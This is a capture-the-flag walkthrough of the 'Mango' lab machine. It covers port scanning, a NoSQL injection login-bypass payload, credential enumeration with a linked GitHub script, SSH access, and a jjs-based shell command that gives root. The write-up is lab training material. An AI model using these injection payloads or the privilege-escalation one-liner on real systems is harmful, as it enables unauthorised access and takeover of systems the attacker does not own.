 # Mango

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.1.219 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 09:22 EDT
Nmap scan report for 10.129.1.219
Host is up (0.012s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

### Port 443

Port 80 straight up denies me, and when we head to port 443 we see that this is some type of search engine:

<figure><img src="../../../.gitbook/assets/image (15) (6).png" alt=""><figcaption></figcaption></figure>

When we view the certificate, we see that there's another domain present:

<figure><img src="../../../.gitbook/assets/image (18) (9).png" alt=""><figcaption></figcaption></figure>

We can enumerate that instead, because why would they hide it if testing for SSRF wasn't a rabbit hole?

### NoSQL Injection

The HTTPS site had nothing for that domain, but the HTTP site revealed a login page:

<figure><img src="../../../.gitbook/assets/image (35) (6) (1).png" alt=""><figcaption></figcaption></figure>

From reading the box name, it was obviously related to exploiting MongoDB, which does not use SQL (otherwise called NoSQL). This login page might be vulnerable to NoSQL injection. I tried this payload:

```
username[$ne]=toto&password[$ne]=toto
```

When examining requests in Burp, I found that the NoSQL Injection returned a 302.

<figure><img src="../../../.gitbook/assets/image (42) (7).png" alt=""><figcaption></figcaption></figure>

While the regular request returned a 200.&#x20;

<figure><img src="../../../.gitbook/assets/image (26) (9) (1).png" alt=""><figcaption></figcaption></figure>

This to me was a clear indication that NoSQL Injection was the path here. I used a script I found on Github to find the rest:

{% embed url="https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py" %}

We can first verify the usernames:

<figure><img src="../../../.gitbook/assets/image (6) (10).png" alt=""><figcaption></figcaption></figure>

This also confirms that it works and it finds 2 users, `mango` and `admin`. Then, we can find the passwords:

<figure><img src="../../../.gitbook/assets/image (29) (6).png" alt=""><figcaption></figcaption></figure>

Then, we can use one of the passwords to SSH in:

<figure><img src="../../../.gitbook/assets/image (30) (8) (1).png" alt=""><figcaption></figcaption></figure>

We can also `su` to `admin` using the other password.

<figure><img src="../../../.gitbook/assets/image (7) (4) (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### JJS SUID

I ran LinPEAS for to enumerate. Within the output, I found one SGID binary.

<figure><img src="../../../.gitbook/assets/image (23) (8).png" alt=""><figcaption></figcaption></figure>

We can run `jjs` to get a `root` shell. All we need to do is follow what is written on GTFOBins:

{% code overflow="wrap" %}
```
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Rooted!

